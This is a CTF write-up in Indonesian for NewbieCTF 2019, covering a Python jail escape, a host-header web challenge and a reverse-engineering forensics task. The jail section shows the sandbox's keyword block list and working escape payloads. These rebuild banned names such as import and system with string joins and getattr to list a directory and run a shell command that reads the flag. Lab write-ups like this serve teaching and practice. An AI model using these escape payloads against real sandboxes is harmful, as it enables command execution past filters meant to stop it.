


NewbieCTF 2019
A cool CTF from CTF Team KorNewbie, Three High school clubs(D.I.S, CPU, N.I.T)

newbie CTF cocok buat yang mau belajar CTF, karna soal nya masih tergolong mudah. sayangnya forensiknya file nya gede - gede wkwk. dan web exploit nya cuma satu.

# Pwnable
## Python Jail

    Hi! Welcome to pyjail!
    Escape Jail If you can!

    Author: SPark
    nc prob.vulnerable.kr 20001

saat dibuka nc-nya, terdapat sebuah python sandbox dengan kdoe seperti berikut yang akan mengeksekusi input pada perintah __exec(text)__ 

```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to pyjail!")
    print("========================================================================")
    print(open(__file__).read())
    print("========================================================================")
    print("RUN")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("No!!!")
            return
    else:
        exec(text)
if __name__ == "__main__":
    main()
```


biasanya sandbox seperti ini bisa kita akali dengan memanfaatkan *predifined variable/function* yang ada. di python kita bisa memanfaatkan variable __\_\_builtins\_\___.


karena code yang diberikan tidak memperbolehkan payload berisi keyword berikut : ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']. maka kita akali dengan fungsi join string yang ada di python.kita coba masukan payload berikut untuk mendapatkan list direktorinya: 
    
```python
print(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])).listdir('/home/python_jail'))
```
hasilnya : 

```python
['.bashrc', '.profile', '.bash_logout', 'flag', 'python_jail.py']
```

ternyata terdapat file *flag*. kita coba buka file flag tersebut dengan methos *os.system* pada python. lagi - lagi karena keyword system di banned pada code, maka kita bisa menggunakan fungsi getattr supaya bisa memanggil method system* menggunakan string.
kita menggunakan payload berikut :
    
```python
print(getattr(__builtins__.__dict__[''.join(['__impor','t__'])](''.join(['o','s'])),"".join(['sys','tem']))('cat /home/python_jail/flag'))
```

dan dipatkan flag :

```bash
KorNewbie{H311o_h0w_@r3_y0u_d0lng?}
```
<br/>
---
    
# Web Hacking
## Normal_Host
```
Normal_Host

This is Just a Normal Host! Can you hack?
Author: Y311J(신재욱)
LINK:
```

[LINK](https://internal.iwinv.net/)

Awalnya pada kategori web hacking memiliki 2 Chals, dan 2 chals tersebut berada pada satu server. saat saya coba mencari flag chals pertama(chals tersebut bertipe RCE PHP) ternyata malah ketemu flag untuk chals yang ini wkwk.

untuk mendapatkan flag pada chals ini masukan payload :
```
normalflag.iwinv.net:80
```

Flag : 
```
KorNewbie{H0$7_$P1it_A774cK_U$3s_N0RM^liZ47ioN&##$%%!}
```

<br/>
---
# Forensics
## Rec

```
REC? Kion vi celas?
```

diberikan file REC.exe, decompile file tersebut dengan IDA, lalu kita lihat function - function yang ada. dan ternyata terdapat fungsi yang menampilkan flag sesuai formatnya.



kita copy dan lakukan find and replace menggunakan VSCode.

    Flag : KorNewbie{Recover_Signature}